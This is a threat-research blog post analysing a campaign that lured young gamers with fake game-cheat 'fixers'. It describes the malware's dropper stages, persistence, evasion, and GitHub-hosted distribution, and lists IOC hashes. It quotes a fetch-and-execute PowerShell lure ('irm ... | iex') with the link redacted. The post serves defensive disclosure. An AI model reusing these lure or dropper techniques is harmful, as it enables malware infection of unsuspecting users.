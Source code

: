 ```yaml
---
title: InfoStealer Turned Ransomware
categories:
 - Research
tags:
 - blog
 - Windows
 - Ransomware
 - research
 - RAT
date: 2025-10-16
description: Just when you thought a TA wouldn’t shift TTPs…
authors: 
- tr4ceang3l
- slavetomints
researchers: 
- slavetomints
- tr4ceang3l
- likerofjazz
- akithecatearedmerc
image:
  path: /assets/img/infostealer-turned-ransomware/odisrotz-github.png
  alt: GitHub profile of the TAs
  post: false
---
```


## Introduction
On the 19th of August 2025, an individual –here-by referred to as “V”– requested help on an unnamed Cybersecurity-oriented Discord server, seeking assistance regarding the recovery of a ransomware-infected system. V had claimed to be searching for a supposed “fixer” for a cheat related to Fortnite’s Retrac. Upon further investigation and triaging of V’s system, we discovered the initial social engineering domain `hxxps[://]retracfix[.]vercel[.]app` and a corresponding YouTube video that directed victims to the aforementioned domain. The domain intends to serve malware under the guise of a “system fixer” and a patch for Project Retrac.

## Initial Evaluations
During the initial investigation of the campaign, researchers at DeTraced identified the campaign as being led by a group of threat actors previously associated with the WebRAT malware. We are currently tracking this group as “Betray.” Upon identifying the potential threat actors, the investigation focused on the initial malware dropper, which was extracted from the domain linked to the infection.

The dropper was heavily obfuscated using various techniques, with a primary reliance on Base64 encoding and GZip compression to conceal its contents from the victim's antivirus software. The dropper’s first action upon execution is to perform hardware checks to detect the presence of common indicators for Virtual Machine (VM) environments. If these checks are successful, the malware will terminate its execution to avoid detection in a researcher’s environment.

If the sandbox evasion is successful and the dropper determines it is running on a legitimate victim’s system, it proceeds to execute a series of system commands via PowerShell. The dropper directs itself to the directory `C:\ProgramData` and checks if the folder `IntelDriver` exists. If the folder is not present, the dropper creates it. Once this directory is in place, the dropper creates a new file called `windows.cmd` and writes its own contents into it.

Next, the dropper reads the Base64-encoded content from any line in the `windows.cmd` file that begins with `::`, and decodes this content. The decoded data is saved to a file named `boot64x.w`. After completing this step, the dropper proceeds to establish persistence on the system by writing a VBScript to a file called `%computername%_windows64x_APZOacoasfjc.vbs`. This script is configured to run the dropper’s payload every minute by creating a Scheduled Task at the path `%AppData%\IntelDriverTask.xml`.

With persistence established, the dropper continues by setting up the main payload. It again reads from `windows.cmd`, specifically extracting data from the section prefixed with `rem`. This data is copied to a file named `netstat.c`. Once `netstat.c` is successfully written, the dropper decodes the Base64-encoded content, decompresses it using Gunzip, and stores the decompressed data into a `byte[]` object. Finally, this decoded content is saved as a valid binary to the file `AarSvcw.dll`.


Now that the main payload has been created, we can take a look at how the malware really operates. For the most part, the payload can be dissected with static analysis. The primary interests of the payload are its use of XOR to encrypt the strings with the single-byte key `0x5A`; using this key, we can decrypt most of the strings in the payload. As a fallback, the payload will recreate the Scheduled Task if, at some point, the file was deleted or moved to ensure persistence, the next stage is to consistently check if a debugger has been attached to the payload to which it will attempt to scramble the memory it’s in and immediately terminate itself to deter dynamic analysis, we can neutralise this check by simply patching the related function calls with `00`s. Once the persistence check has passed, the payload will proceed to extract another set of encrypted data stored within `boot64x.w` and loads it into memory, preparing itself to then inject the secondary payload into `explorer.exe`.

The contents of the secondary payload are currently unknown to us as we continue to investigate the malware and the affiliated campaign’s supply chain.

## Supply-chain Analysis
Betray uses YouTube videos that advertise cheats and "fixer" scripts for video games, aiming to get kids and teens who are looking for cheats for video games. The videos show the user running a script in Windows Command Prompt, and then it cuts to them playing the game with the supposed benefits of the cheat. During the video, the attacker will go over the installation process and will claim that the user's antivirus software will detect it, but it is a false positive. 

![the youtube videos](/assets/img/infostealer-turned-ransomware/videos.png)

This little bit of social engineering will be good enough to work on most users and trick the victim into interacting with the video description and following the website link, which brings them to an application hosted on Vercel. Betray has two different styles of websites. One type will have a download button for users to click on, and others will include a `irm [TINYURL LINK] | iex` command for the users to run on their systems.

![](/assets/img/infostealer-turned-ransomware/download-page.png)
![](/assets/img/infostealer-turned-ransomware/retrac-irm-iex.png)

In both cases, the goal is to get the user to download and run the batch or PowerShell scripts that Betray uses as a dropper for their malware.

Betray also includes directions on their websites for users to follow, which include having users ignore warnings from their antivirus software.

![](/assets/img/infostealer-turned-ransomware/download-instructions.png)

Once the victim follows these steps, the malware is now on the user's system and will execute. But where does the malware come from?

Inspecting the network connections when the file was downloaded revealed that it came from a release from a GitHub repository, so we went and checked it out.

![](/assets/img/infostealer-turned-ransomware/odisrotz-github.png)

This is one of multiple GitHub accounts found throughout this campaign. Inspection of the repositories either turned up an empty repository with 1-2 releases or a repository full of malware. Looking into the releases answered as to where the malware came from.

![](/assets/img/infostealer-turned-ransomware/odisrotz-releases.png)

Betray typically hides their malware in the repository releases, and when a victim clicks on the download button, it would redirect their browser to a link such as `hxxps[://]github[.]com/odisdrotz71/thermia/releases/download/Thermia/ThermiaPredictor[.]exe`. Further inspection of the GitHub account and its other repositories led to the discovery of more malicious websites for different games, including Roblox, a popular game among kids, Stake Mines, a minesweeper casino game, and Rainbow 6 Siege, an FPS shooter game.

Some of those sites looked like this:

![](/assets/img/infostealer-turned-ransomware/valex-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/valexexecutor-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/thermiapredictor.png)
![](/assets/img/infostealer-turned-ransomware/r6s-recoil.png)

It is worth noting that none of the other buttons on the websites would work; they would redirect back to the top of the page.

Betray has also leveraged GitHub Gists and `hxxps[://]filedoge[.]com` for distribution and hosting of samples; however, the `filedoge[.]com`web server has been offline since August 2025, and still is at the time of this report.

## Conclusion

After their stint with hiding RATs in video game cheats, the TA expanded into the malware selling scene, attempting to sell a strain known as XWorm on hxxps[://]rce[.]lol, and a batch script obfuscator on hxxps[://]betray[.]cfd. Analysis of bitcoin addresses found to be linked with the TA reveals that they never ended up receiving any payment through cryptocurrency, but they also used PayPal and Roblox gift cards.

Some sites remain active as we work to take them down, but most have been categorized by search engines as unsafe to browse.

## Indicators of Compromise

*For the full list of IOCs and YARA rules, please check out [DeTraced-Security/detection-rules](https://github.com/DeTraced-Security/detection-rules)*

### RetracFix Sample:

```
Output DLL: AarSvcw.dll
Intermediates: windows.cmd, boot64x.w, netstat.c (used during reconstruction)

Hash – original BAT: 38aa08661729dd3c2ae3c1fb98f85f6aa4ff5e7385b0db2a65e9e85747848ad8
Hash - boot64x.w (Obfuscated): 5b1ed346d3a84543f527aa89135037d3bf56b9343b38cbeb340811da5d9a5e43 
Hash - AarSvcw.dll (Decoded): 2ce0dc292b81c72271bc9f0961271fac1e4d42b35292ce56b241174bbbeb4b46 
Hash - windows.cmd (Obfuscated): 07be8edabaa28e6d4ce30c5999b22aab53eac89a43fb036cd3cec15b63b7a81c
```

### Affiliated Samples
```
40b461edb9b2a18bc2ed8236789c1672  2fa.bat
7c92b6d50d1ab7ae24ee93d307c376f2  2faBeta.exe
bc1cfd626ef0eedcdcc46036b649c406  a.exe
780c2f5e127d12181b6650cededecd58  built-agbcfdxdfsdf.bat
161d57257ea219a030d2c902e85c5b18  CharmBootstrapper.bat
51b03d9bae4a53dd4e6210254084b806  ExecFix-2.bat
18bd43b2dfad0c247148db1afdf8462e  ExecFix.bat
220d8aa7e914dfbd52b29d25fbf5e9cd  LuckyGrid.exe
c8a8bf528e1ba3ff05ddd9368efd9f82  MinesPredictor.bat
b80538c353bd0a35e28b0b7c958a0689  r6_recoil.exe
0ee7449dd865145498ad23c43fba4754  retrac_fixer_loader.bat
da84fb352ca22ec2c94abd6f8851ea68  thermia.bat
e014911669d783a05005d48e9e6e8c2c  ThermiaPredictor-2.exe
8060fca6ac9ce3ebceba15f66db02443  ThermiaPredictor.exe
cf5005ebdc43ad19863b701025a4279b  ValexUpdater.exe
45bb4c63b0badff7721d2012b6482073  verbal.exe
fe5c839be7074513d2be80356e807fba  wcarrpt.bat
```
